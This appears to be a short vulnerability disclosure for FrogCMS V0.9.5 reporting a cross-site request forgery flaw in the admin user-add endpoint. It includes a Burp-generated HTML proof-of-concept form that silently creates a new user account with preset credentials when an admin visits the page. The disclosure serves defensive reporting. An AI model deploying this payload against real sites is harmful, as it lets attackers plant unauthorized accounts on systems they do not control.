 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/user/add

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/user/add" method="POST">
      <input type="hidden" name="/user/add" value="" />
<input type="hidden" name="user%5Bname%5D" value="cs123" />
<input type="hidden" name="user%5Bemail%5D" value="" />
<input type="hidden" name="user%5Busername%5D" value="cs123" />
<input type="hidden" name="user%5Bpassword%5D" value="Qwer1234" />
<input type="hidden" name="user%5Bconfirm%5D" value="Qwer1234" />
<input type="hidden" name="commit" value="Save" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


